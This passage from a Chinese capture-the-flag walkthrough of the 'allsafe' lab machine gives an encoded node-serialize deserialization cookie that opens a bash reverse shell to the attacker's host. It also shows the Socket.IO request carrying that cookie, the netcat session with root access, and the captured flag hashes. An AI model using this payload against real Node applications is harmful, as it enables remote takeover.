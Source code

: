base编码+url编码

```
ew0KICAidXNlcm5hbWUiOiAiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoXCJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMjA1LjEyOC84ODg4IDA%2BJjEnXCIpO30oKSINCn0%3D
```

kali监听

关键利用包，替换到 Socket.IO 轮询请求

```
POST /socket.io/?EIO=4&transport=polling&t=a7m0hv65&sid=Zr2kizcum7IVICx8AAAc HTTP/1.1
Host: 192.168.205.136:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-type: text/plain;charset=UTF-8
Content-Length: 49
Origin: http://192.168.205.136:3001
Connection: keep-alive
Cookie: sess=ew0KICAidXNlcm5hbWUiOiAiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoXCJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMjA1LjEyOC84ODg4IDA%2BJjEnXCIpO30oKSINCn0%3D

40{"username":"anon","room":"general","token":""}
```

监听并获取反弹 shell：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888                                                                                                                                                                
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.136] 41224
bash: no se puede establecer el grupo de proceso de terminal (377): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
root@allsafe:~/app/src# id
id
uid=0(root) gid=0(root) grupos=0(root)
root@allsafe:~/app/src# cd  
cd
root@allsafe:~# cat /root/root.txt   
cat /root/root.txt
74d1b217518f030ed2c911f77413f394
root@allsafe:~# find / -name 'user.txt' 2>/dev/null
find / -name 'user.txt' 2>/dev/null
/home/cisco/user.txt
root@allsafe:~# cat /home/cisco/user.txt
cat /home/cisco/user.txt
e8c459b5b46f5722effe5f2f64421ef3
```

# 10. 聊聊

thehackerslabs的强度又起来了，好事

它的网址是：https://labs.thehackerslabs.com/ 

想打的可以打打